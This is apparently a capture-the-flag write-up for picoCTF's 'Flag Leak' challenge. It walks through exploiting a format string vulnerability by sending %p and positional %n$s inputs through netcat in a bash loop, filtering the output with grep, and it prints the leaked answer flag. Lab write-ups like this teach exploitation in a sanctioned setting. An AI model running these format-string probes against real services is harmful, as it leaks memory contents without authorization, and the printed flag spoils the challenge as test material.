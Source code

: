 # Flag Leak 

## Challenge
*Story telling class 1/2*
*I'm just copying and pasting with this program. What can go wrong? You can view source here. And connect with it using:*
*nc saturn.picoctf.net 50926* 

## Thought Process
First Step was to examine the files provided starting off with the vuln.c
After examining it was pretty clear that the program contained a format string vulnerability.

To exploit a format string vulnerability, I gave `%p%p%p%p%p%p%p%p%p%p%p%p` as an input to which i got a hex encoded - scrambled flag like response :
```bash
randoduck@DESKTOP-2PM3SNS:~$ nc saturn.picoctf.net 50926
Tell me a story and then I'll tell you one >> %p%p%p%p%p%p%p%p%p%p%p%p
Here's a story -
0xffcbc2200xffcbc2400x80493460x702570250x702570250x702570250x702570250x702570250x70257025 # *ocip{FTCk43L_gn1g4lFff0_4tS_1_kc2a125}* 
```
Since this isn't quite it , I tried using `gdb` to set return and break addresses to find out the location of *readflag* on the stack. This attempt of mine was unsuccessful as it kept showing errors regarding the file executables. After further research I came across this method of brute forcing and leaking values off the stack using different type of format strings . Now the way the brute forcing would work is by printing out the values in consecutive memory location in a stack . This repeated execution can be replicated using `for loop ` in bash .

#### Explanation of Each Component:

- **for i in {0..999}**
This is a Bash loop that iterates through numbers from 0 to 999.
The variable i takes each value in this range during each iteration.

- **do ... done:**
This defines the block of code to execute during each iteration of the loop.

- **echo "%$i\$s":**
echo: Prints the string to the terminal or pipes it to the next command.

- **"%$i\$s":**
%$i\$s:
%: A format specifier .
$i: The current value of i in the loop, replaced on each iteration.
\$: The \ escapes the dollar sign $ so it is treated as a literal character in the string.
s: part of a formatted string, intended for a format string vulnerability.

```bash
randoduck@DESKTOP-2PM3SNS:~$ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 59213 ; done                                               
Tell me a story and then I'll tell you one >> Here's a story -                                                                                       %0$s                                                                                                                                                 Tell me a story and then I'll tell you one >> Here's a story -                                                                                       %1$s                                                                                                                                                 Tell me a story and then I'll tell you one >> Here's a story -                                                                                       A                                                                                                                                                   Tell me a story and then I'll tell you one >> Here's a story
picoCTF{L34k1ng_Fl4g_0ff_St4ck_ 
```
After several in the end we come across what uncannily ressembles a flag so we stop the process and take a look . I noticed that this particular flag was correct but nevertheless not complete.

## Solution 
 I realised this demanded a more targeted approach and hence used the `grep` command in my next iteration . The changes made were :
- **grep:** used to search for patterns in text.
It reads input (from a file or standard input) and outputs lines that match the specified pattern.
- **E:** Enables Extended Regular Expressions (ERE) in the pattern.
With -E, you can use additional regex features like parentheses () for grouping and | for alternation without needing to escape them.
- **i:**
Makes the search case-insensitive.
For example, it treats "PICO", "pico", "CtF", "CTF", etc., as equivalent matches.
- **'(pico|ctf)':**
pico: Matches any occurrence of "pico" (case-insensitively).
|: Means "OR" in regex.
ctf: Matches any occurrence of "ctf" (case-insensitively).

```bash 
randoduck@DESKTOP-2PM3SNS:~$ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 59213 | grep -Ei '(pico|ctf)'; done                                                                                                                                            CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}     
```
piecing it up we get the flag as : *picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}*

## <3
